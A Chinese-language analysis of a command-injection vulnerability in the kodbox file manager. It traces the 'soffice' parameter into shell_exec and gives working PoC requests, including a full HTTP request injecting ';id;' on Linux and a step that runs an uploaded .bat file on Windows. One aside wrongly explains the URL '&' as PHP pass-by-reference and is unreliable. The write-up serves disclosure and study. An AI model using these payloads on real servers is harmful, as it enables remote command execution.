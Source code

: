 漏洞前言：
=====

kodbox 是一个网络文件管理器。是一款功能丰富的私有云在线文档管理系统。它可以帮助你快速搭建一个私有网盘/云桌面，方便地管理和共享文件。它也是一个网页代码编辑器，允许您直接在网页浏览器中开发网站。12月16日发布漏洞公告kalcaddle kodbox 中发现命令注入漏洞，影响版本为小于1.48。

漏洞环境：
=====

本地环境搭建：

源码下载：https:*//github.com/kalcaddle/kodbox*

下载1.47版本源码进行搭建，需要php版本为5以上，这里不做过多赘述。

![image-20231220145426948](https://shs3.b.qianxin.com/butian_public/f353177c8b73f6ec6c9616808b682c4717c8232f168e1.jpg)

漏洞分析：
=====

根据公告内容：受此漏洞影响的是文件plugins/officeViewer/controller/libreOffice/index.class.php的功能检查，对参数 soffice 的操纵会导致命令注入。

![image-20231220155207246](https://shs3.b.qianxin.com/butian_public/f99890061a4a5ce96aa327bbf03e90f71e66f15ed6103.jpg)

那么进一步跟进代码进行查看：

先查看主函数：

![image-20231220155537091](https://shs3.b.qianxin.com/butian_public/f839538ebe23426be857c7537ea272ff289fcfc950fb9.jpg)

主函数作用是在用户访问文件的时候首先获取处理文件插件功能的插件，再检查是否允许使用名为 'LibreOffice' 的扩展。getSoffice()用于检查能否成功获取到LibreOffice 的可执行文件路径，最后通过传入的filepath获取指定文件信息。

跟进getSoffice()方法：

![image-20231220164944113](https://shs3.b.qianxin.com/butian_public/f815817283d02e48c46386ed3ead55267318537ee7012.jpg)

`getSoffice` 方法用于获取LibreOffice的可执行文件路径的函数。它首先从配置中获取 LibreOffice 的安装路径，然后通过 `checkBin` 方法检查该路径是否有效。跟进checkBin()：

![image-20231220185257407](https://shs3.b.qianxin.com/butian_public/f5292000996d11331bfc2c2aa23cad79ed0a9f5a379c5.jpg)

`checkBin` 方法用于检查指定可执行文件是否可用。通过执行 `shell_exec` 来尝试运行指定的可执行文件。

其中使用`shell_exec`函数执行了命令并将输出结果存储在`$result`变量中。

![image-20231227171859395](https://shs3.b.qianxin.com/butian_public/f330115f6cc535e5431505d451af21bf587869e3e406a.jpg)

```php
private function checkBin($bin,$check){
    $code = Cache::get($bin);
    if ($code) return $code;
    $result = shell_exec($bin.' --help');  // ' 2>&1'
    $code = strstr($result,$check) ? true : false;
    Cache::set($bin, $code);
    return $code;
}
```

可以看到这里$bin可控。

下面查看哪里调用了getSoffice()，找到函数check()；

![image-20231220162324449](https://shs3.b.qianxin.com/butian_public/f4223156b16913d5de54dbf21dbb58dbba5f9254fcbc7.jpg)

```php
public function check(){
       $bin = $this->in['soffice'];
       //从 HTTP 请求中获取名为 `soffice` 的参数并将其值赋给变量 $bin
    $plugin = Action($this->pluginName);
       if(!empty($bin)) {
           $plugin->setConfig(array('lbSoffice' => $bin));
       }
    if(isset($_GET['check'])){
       if(!function_exists('shell_exec')) {
          show_json(LNG('officeViewer.libreOffice.execDisabled'), false);
       }
       $msg = '';
           if(!$soffice = $this->getSoffice()) {
          $msg = LNG('officeViewer.libreOffice.checkError');
           }
           show_json($msg, !!$soffice);
    }
       Action($this->pluginName)->includeTpl('static/libreoffice/check.html');
}
```

可以看到通过此函数先从 HTTP 请求中获取名为 `soffice` 的参数，并将其值赋给变量 `$bin`，下来检查是否存在名为 "check" 的 GET 参数，如果存在才会进入条件语句的代码块，检查`shell_exec()` 函数是否可用，接下来调用`getSoffice()` 方法。

![image-20231221152920377](https://shs3.b.qianxin.com/butian_public/f71072686c8b39d5032a85ff51aa2d91c8e5073b1f39e.jpg)

在`getSoffice()` 方法中`isset($data['soffice'])` 检查数组 `$data` 中是否存在键名为 `'soffice'` 的元素，如果存在返回true，并将$data\['soffice'\]` 的值赋给$bin。

![image-20231227102617040](https://shs3.b.qianxin.com/butian_public/f352833268c4f7e4e7b8a8552578d3c50daaec0adeb62.jpg)

拼接soffice参数：plugin/officeViewer/libreOffice/index/check&amp;soffice

使用 `&` 连接check和soffice参数可以将参数以引用传递的方式传递给函数或方法。

（在php中两个参数使用 `&` 连接参数是为了以引用传递的方式将参数传递给函数或方法。PHP 函数和方法中的参数传递分为按值传递、引用传递。默认情况下PHP 函数和方法中的参数传递是按值传递（pass by value）的，也就是说会创建参数的副本并传递给函数或方法。这意味着在函数或方法内部对参数进行修改不会影响到原始的参数。然而，有时候我们希望在函数或方法内部能够修改原始的参数。这时可以使用引用传递（pass by reference），在参数前面加上 `&` 符号来实现。这样，当参数在函数或方法内部被修改时，原始的参数也会被修改。）

![image-20231227162319706](https://shs3.b.qianxin.com/butian_public/f801351dee06a198ff6d09f38f5cf2f2cde65e0cc14aa.jpg)

```php
$bin = '"'.trim(iconv_system($bin)).'"';    // win路径空格处理
```

在windows环境下对$bin特殊处理：getSoffice()中$bin参数会被两个双引号闭合，且使用`trim()` 函数删除 `$bin` 变量字符串首尾的空白字符，包括空格、制表符、换行符等。iconv\_system函数用于将“$bin”字符进行编码转换。

![image-20240102161322392](https://shs3.b.qianxin.com/butian_public/f84241869e19f4fc63c2e5f936e11099c855792cc7738.jpg)

windows环境下可以通过传入文件路径执行bat文件实现远程命令执行。

测试poc为：

```php
plugin/officeViewer/libreOffice/index/check&soffice=D:\softs\phpstudy\phpstudy_pro\WWW\kodbox\data\files\202312\19_81229b0a\poc.bat
```

linux环境下可以通过soffice传入命令通过闭合双引号实现命令注入。

测试poc为：

```php
index.php?plugin/officeViewer/libreOffice/index/check&soffice=";id;%23&check=1
```

漏洞利用：
=====

**linux系统下漏洞利用：**

![image-20231227162025164](https://shs3.b.qianxin.com/butian_public/f881092f78b40bf02306d3473bf8a20c41f5c04a66a18.jpg)

GET /kodbox/index.php?plugin/officeViewer/libreOffice/index/check&amp;soffice=";id;%23&amp;check=1 HTTP/1.1  
Host: 192.168.145.131  
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: KOD\_SESSION\_ID=9fbbb7a218e0d680fab1ce38b9879adc; CSRF\_TOKEN=6jfthGWYzrs5R8Xr; kodUserID=1  
Connection: close

![image-20231227161617161](https://shs3.b.qianxin.com/butian_public/f973184302e81bf17ab0ca93aab0c1cf23af8959977bf.jpg)

**windows系统下：**

利用条件：1、需要权限可上传写入文件到服务器中。2、需要有可执行文件的绝对路径。

一、进入后台上传poc文件

![image-20231220145907781](https://shs3.b.qianxin.com/butian_public/f327865da8aa5ce351a5488a00df95ee8f7b95ae9d7ec.jpg)

poc内容为：

![image-20231220150009307](https://shs3.b.qianxin.com/butian_public/f425664465ff6a05b58f643a6ff33ee47910c2d90c8bb.jpg)

poc上传的绝对路径为：

```php
D:\softs\phpstudy\phpstudy_pro\WWW\kodbox\data\files\202312\19_81229b0a\poc.bat
```

![image-20231220154626142](https://shs3.b.qianxin.com/butian_public/f4841226475af6fc4efc498a51deb2e1d5ab0d0130b8b.jpg)

二、执行poc.bat：

```php
index.php?plugin/officeViewer/libreOffice/index/check&soffice=D:\softs\phpstudy\phpstudy_pro\WWW\kodbox\data\files\202312\19_81229b0a\poc.bat
```

![image-20231220155010220](https://shs3.b.qianxin.com/butian_public/f790098ab1d910b62cfe06a9fa047a80f5ab9600b7d1a.jpg)

执行结果：

![image-20231220155044498](https://shs3.b.qianxin.com/butian_public/f6745872985f2da6f5169498f734d0919ce5a12c9e49c.jpg)